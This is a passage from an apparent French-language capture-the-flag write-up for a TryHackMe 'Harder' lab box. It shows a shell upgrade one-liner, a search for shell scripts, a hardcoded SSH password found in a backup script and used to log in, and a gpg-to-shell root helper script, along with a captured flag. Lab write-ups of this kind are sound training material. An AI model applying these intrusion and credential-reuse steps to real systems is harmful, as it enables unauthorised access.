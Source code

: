 On obtient un shell.
On voit qu'il existe un utilisateur evs.   
On lit le fichier user.txt et on a notre flag.   

Le flag est : 7e88bf11a579dc5ed66cc798cbe49f76     


**Escalate your privileges and get the root Flag (root.txt)**

```bash
python3 -c "import pty;pty.spawn('/bin/sh')"
 $ find / -name *.sh 2>/dev/null
find / -name *.sh 2>/dev/null
/usr/bin/findssl.sh
/usr/local/bin/run-crypted.sh
/etc/periodic/15min/evs-backup.sh
```

On cherche des fichiers qui sont utile.  

```bash
cat /etc/periodic/15min/evs-backup.sh
#!/bin/ash

# ToDo: create a backup script, that saves the /www directory to our internal server
# for authentication use ssh with user "evs" and password "U6j1brxGqbsUA$pMuIodnb$SZB4$bw14"
```

Dans le fichier evs-backup.sh on trouve des identifiants.   
Nom : evs
Mote de passe : U6j1brxGqbsUA$pMuIodnb$SZB4$bw14

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh evs@shell.harder.local 
evs@shell.harder.local's password: 
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <http://wiki.alpinelinux.org/>.

You can setup the system with the command: setup-alpine

You may change this message by editing /etc/motd.
harder:~$ find / -type f -name "*.sh" 2> /dev/null
/usr/bin/findssl.sh
/usr/local/bin/run-crypted.sh
/etc/periodic/15min/evs-backup.sh

harder:~$ cat /usr/local/bin/run-crypted.sh 
#!/bin/sh

if [ $# -eq 0 ]
  then
    echo -n "[*] Current User: ";
    whoami;
    echo "[-] This program runs only commands which are encypted for root@harder.local using gpg."
    echo "[-] Create a file like this: echo -n whoami > command"
    echo "[-] Encrypt the file and run the command: execute-crypted command.gpg"
  else
    export GNUPGHOME=/root/.gnupg/
    gpg --decrypt --no-verbose "$1" | ash
fi
```
